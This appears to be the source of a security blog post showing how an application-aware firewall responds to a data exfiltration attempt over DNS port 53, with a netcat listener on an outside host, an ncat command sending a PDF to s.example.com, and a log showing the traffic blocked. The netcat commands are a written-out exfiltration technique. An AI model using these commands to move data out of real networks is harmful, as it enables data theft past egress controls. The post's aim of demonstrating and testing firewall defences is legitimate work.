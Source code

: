 ```yaml
---
layout: post
title:  "Application Firewall Data Exfiltration over DNS"
date:   2020-03-14 14:11:15 -0400
categories: exfiltration 
tags: app-id
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be) so a simple listener will be open on the DNS port which is more commonly permitted.
</p>

<h3>Step 1 - Start the Listener</h3>

<p>
In this example the listener is being run on a Linux host outside of the firewall.
</p>

<p>nc is like a networking swiss army knife, -l means listen, -p specifies port 53, and > data indicates to store all of the data received in a file called data.
</p>
<br>
<code>
  nc -l -p 53 > data
</code>
<br>
<br>
<img src="/images/exfiltration-netcat-destination.png" alt="netcat">

<h3>Step 2 - Send a File</h3>

<p>
From a blue host behind the firewall run netcat.
</p>

<p>
This time netcat is being run with --send-only which only allows sending to the target, the target is s.example.com, the port is 53 to appear as DNS, and < rp_DBIR_2017_Report_en_xg.pdf sends that PDF over the channel.
</p>
<br>

<code>
  ncat --send-only s.example.com 53 < rp_DBIR_2017_Report_en_xg.pdf
</code>
<br>
<br>
<img src="/images/exfiltration-netcat-source.png" alt="netcat">


<h3>Step 3 - View the Results</h3>

<p>
After several seconds we see that the sending device ends the session with "broken pipe", meaning something happened to the session and it ended. This could be from the target, source, or something in between.
</p>

<p>
Looking at the following NGFW log we can see that the NGFW prevented the session. It determined that the traffic is not actually DNS and instead identified it as psiphon, which is not permitted in any policy.
</p>
<br>
<br>
<img src="/images/exfiltration-netcat-ngfwlog.png" alt="ngfw">



